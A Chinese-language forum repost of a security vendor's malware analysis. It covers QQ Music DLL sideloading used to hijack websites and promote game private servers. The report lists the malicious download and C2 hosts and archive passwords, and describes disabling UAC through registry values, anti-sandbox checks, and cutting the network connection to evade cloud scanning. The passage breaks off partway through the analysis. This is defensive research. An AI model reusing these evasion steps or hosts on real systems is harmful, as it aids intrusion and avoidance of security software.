# [PC样本分析] QQ音乐遭遇“白加黑”利用，网站被劫持推广传奇私 服

- 原帖: https://www.52pojie.cn/forum.php?mod=viewthread&tid=2001856
- 抓取时间: 2026-11-01T23:45:59

网络劫持攻击一直是网络安全领域的常见威胁，攻击者通过篡改网络请求或植入恶意代码，将用户劫持至非法页面，从而实现恶意目的。这种攻击手段不仅干扰用户的正常网络体验，还可能带来隐私泄露和设备安全风险。

近期，火绒威胁情报中心监测到 QQ 音乐目录下存在异常进程自启现象。经溯源分析，确认该进程文件为 2021 年版本的 `QQMusic.exe` 文件。攻击者利用“白加黑”技术加载恶意 DLL 文件，解压出劫持网页模块，随后安装用于劫持网页的恶意驱动，最终达成将指定网址劫持至私 服发布页面的攻击目的。此外，该恶意驱动还可检测 ARK 工具驱动，并对其进行断链以隐藏自身驱动，同时对安全软件的通信进行干扰。目前，火绒安全产品可对上述病毒进行拦截查杀，建议广大用户及时更新病毒库以提高防御能力。



查杀图

劫持前网站页面为：



原网站

劫持后网站页面为：



劫持后网站

## 一、溯源分析

在进行溯源时，我们发现早在 2021 年就存在一种利用 `ManicTimeVico.exe`（实际为 `QQMusic.exe` 文件）实施白加黑手段的病毒。然而，此次发现与 2021 年的情况有所不同，其源头大部分来自于传奇私 服，还有一小部分为游戏修改器和模拟器等。相关的恶意文件名有 `完美公益[1.01].exe`、`2k25西瓜修改器.exe`、`krkr-incomplete-load.exe`（吉里吉里模拟器）等。

在调查过程中我们还注意到，这些传奇私 服大部分是通过蓝奏云下载的。而蓝奏云下载链接疑似被劫持，导致实际下载链接被篡改为阿里云 oss 链接，最终致使用户下载到携带病毒的文件。

以下是下载该病毒时用到的链接：（其中包含各种各样的传奇私 服文件。）

- `lanzouxx.oss-cn-hangzhou.aliyuncs.com`
- `fs1832075456.oss-accelerate.aliyuncs.com`
- `lanzoc.oss-cn-hangzhou.aliyuncs.com`
- `fs839268.oss-cn-shenzhen.aliyuncs.com`
- `lanzoa.oss-cn-hangzhou.aliyuncs.com`
- `lanzog.oss-cn-hangzhou.aliyuncs.com`
- `lanzod.oss-cn-hangzhou.aliyuncs.com`
- `lanzoi.oss-cn-hangzhou.aliyuncs.com`
- `lanzok.oss-cn-hangzhou.aliyuncs.com`
- `lanzof.oss-cn-hangzhou.aliyuncs.com`
- `lanzob.oss-cn-hangzhou.aliyuncs.com`
- `lanzoj.oss-cn-hangzhou.aliyuncs.com`

以下是 2022 年 11 月 21 日某贴主发布的蓝奏云下载地址被劫持的警示帖子截图：



蓝奏云链接劫持帖子截图

## 二、样本分析

基于上述溯源发现，下面将以 `完美公益 [1.01].exe` 为例进行分析。（其他样本与该样本类似，仅仅是其中释放的原文件不一样。）

该样本的执行逻辑可以分为以下三个阶段：

- 初始阶段：样本首先释放并运行原始文件，即传奇私 服程序，随后下载配置文件并检查指定文件和注册表决定进入哪条分支。
- 下载劫持模块：第一分支和第二分支负责下载劫持模块。尽管第三分支由于无法成功下载文件，所以我们无法确切判断它是否也会执行下载劫持模块的操作，但在分类上我们依然将其归到这一阶段当中。
- 劫持模块：劫持模块中实现劫持操作，将指定网页劫持至传奇私 服发布页。

该样本执行流程图如下：



流程图

### 初始阶段

**执行原程序**：样本首先进行的操作是提取自身资源中的 `bitmap - 0x80 - 0x409`，接着将其取反，以此作为文件名，随后在 C 盘下创建一个名为 `完美公益 [1.01]` 的目录。完成这一步后，样本会再次提取资源 `bitmap - 0x74 - 0x409`，并取反后作为文件数据，最终生成一个名为 `完美公益 [1.01].exe` 的可执行文件并执行它。



执行原文件



资源中的原程序

**下载配置文件**：通过链接 `http://d_1.largesder.com:8888/` 下载 `ii.html` 文件，之后利用井字符号分割其内容，并分别赋值。所赋的值后续会用于检查特定文件是否存在、确定需要等待的秒数，以及判断是否进入第三分支等情况。



下载 `ii.html` 并分割赋值

随后分别检查以下内容是否存在：

文件夹：其检查结果会对是否进入第二分支产生影响。

- `C:/Program Files (x86)/DB Commander 2000 PRO/`
- `C:/Program Files/DB Commander 2000 PRO/`

注册表：尚未分析出是否会有影响。

- `SOFTWARE\Microsoft\Terminal Server Client\Default\MRU0`
- `SOFTWARE\Microsoft\Terminal Server Client\Default\MRU1`
- `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\VMnetDHCP`

创建 `C:\ProgramData\ttt7.ini` 和 `C:\ProgramData\t7.ini`。

设置以下注册表值为 0，以禁用用户账户控制（UAC）：

- `SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\ConsentPromptBehaviorAdmin`
- `SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\EnableLUA`
- `SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\PromptOnSecureDesktop`



禁用 UAC

**检查安全软件进程**：对 `kxetray.exe`、`360Safe.exe`、`360Tray.exe` 等进程进行检查。其中，是否存在 360 相关进程会对是否进入第一分支产生影响。



检查安全软件

### 下载劫持模块阶段

**第一分支**

第一分支进入条件：检测是否存在 360 进程，如果存在则会进入第一分支。此过程中有断网操作，推测其目的是对抗 360 云端上传检测。

下载文件：进入分支后，下载云端配置、解压器及 QQ 音乐白加黑模块加载器三个文件。

解压执行：下载文件后判断 `FFDPS.tmp` 中数据是否为 `123`，如果是 `123` 则利用解压器 `rr.exe` 和密码 `FASJKLVFDAJKLCDSA434JKLFDS` 解压 `startups.jpg` 至 `C:\Users\Administrator\AppData\Local\Temp` 目录中，随后执行 `playtomenu.exe`。



下载链接对应表

`playtomenu.exe`

程序功能：具备反沙箱等功能以防止恶意行为被分析，通过断网解压执行的方式来逃避云端上传检测，并且能够实现持久化操作。

文件膨胀：`playtomenu.exe` 文件经过膨胀，文件大小接近 100MB。



充满 `0x08` 数据

反沙箱等防止恶意行为分析：检测磁盘大小、查看当前进程文件的路径及最后修改时间、检查是否为管理员等。

检测磁盘大小：判断 C 盘剩余大小是否小于 10GB。


Image-12.png (28.76 KB, 下载次数: 0)
[href="forum.php?mod=attachment&aid=Mjc1MTA2OHw2MDFlNjBlZXwxNzkzNTc2NzU3fDE2ODA4NnwyMDAxODU2&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=Mjc1MTA2OHw2MDFlNjBlZXwxNzkzNTc2NzU3fDE2ODA4NnwyMDAxODU2&nothumb=yes)
2025-1-22 17:13 上传

## 检查 C 盘大小
检测文件信息和路径：获取 `playtomenu.exe` 文件的最后修改时间及文件路径，并对这些信息进行验证，查看其是否与特定的时间 2020/02/03 11:41:30 和路径 `C:\Users\Administrator\Desktop\playtomenu.exe` 完全一致，当两个条件均满足时，程序才会继续执行后续操作。


Image-13.png (45.04 KB, 下载次数: 0)
[href="forum.php?mod=attachment&aid=Mjc1MTA2OXw1YjNjMTM1OXwxNzkzNTc2NzU3fDE2ODA4NnwyMDAxODU2&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=Mjc1MTA2OXw1YjNjMTM1OXwxNzkzNTc2NzU3fDE2ODA4NnwyMDAxODU2&nothumb=yes)
2025-1-22 17:13 上传

## 检查修改时间和路径
管理员检测：利用 `IsUserAnAdmin` 函数检查用户是否为管理员，如果不是管理员则会打开五子棋程序，目前尚未明确作者意图。


Image-14.png (12.84 KB, 下载次数: 0)
[href="forum.php?mod=attachment&aid=Mjc1MTA3MHwzNzQ5NmI0Y3wxNzkzNTc2NzU3fDE2ODA4NnwyMDAxODU2&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=Mjc1MTA3MHwzNzQ5NmI0Y3wxNzkzNTc2NzU3fDE2ODA4NnwyMDAxODU2&nothumb=yes)
2025-1-22 17:13 上传

## 五子棋截图
下载文件：该样本后续会下载以下内容。需要注意的是，对于 `FFDPS_1.tmp` 这一文件，只有其中的数据为 123 时才会继续运行，否则将直接终止进程。


Image-15.png (40.67 KB, 下载次数: 0)
[href="forum.php?mod=attachment&aid=Mjc1MTA3MXxiMTdkODRlY3wxNzkzNTc2NzU3fDE2ODA4NnwyMDAxODU2&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=Mjc1MTA3MXxiMTdkODRlY3wxNzkzNTc2NzU3fDE2ODA4NnwyMDAxODU2&nothumb=yes)
2025-1-22 17:13 上传

## 下载链接与文件路径对应表
判断系统版本：获取 Windows 系统的版本信息，以此选择符合版本的 `ipconfig.exe` 来实现断网操作。


Image-16.png (71.6 KB, 下载次数: 0)
[href="forum.php?mod=attachment&aid=Mjc1MTA3MnxhZWZjN2EzNHwxNzkzNTc2NzU3fDE2ODA4NnwyMDAxODU2&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=Mjc1MTA3MnxhZWZjN2EzNHwxNzkzNTc2NzU3fDE2ODA4NnwyMDAxODU2&nothumb=yes)
2025-1-22 17:13 上传

## 获取 Windows 版本
断网逃避云端上传：利用解压器和密码 `H7C9V7A9X7V9D7AC6V9D9A` 对不同版本的 `ipconfig.exe` 进行解压。当系统版本为 Windows 10 时，执行命令行 `YJUSA.exe /v9f8s7a` 来实现断网操作（这里的 `YJUSA.exe /v9f8s7a` 与 `ipconfig.exe /release` 功能相对应）。


Image-17.png (58.01 KB, 下载次数: 0)
[href="forum.php?mod=attachment&aid=Mjc1MTA3M3w3MzA1ODNjN3wxNzkzNTc2NzU3fDE2ODA4NnwyMDAxODU2&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=Mjc1MTA3M3w3MzA1ODNjN3wxNzkzNTc2NzU3fDE2ODA4NnwyMDAxODU2&nothumb=yes)
2025-1-22 17:14 上传

## 释放和重新获取 IP 地址
检测断网是否成功：释放 IP 地址后，设备将无法联网，此时尝试连接 http://www.baidu.com，若无法连接则开始利用密码 `H7C9V7A9X7V9D7AC6V9DA9A` 解压 `nsWrsIrkxL.jpg`，从而解压出 QQ 音乐白加黑模块。

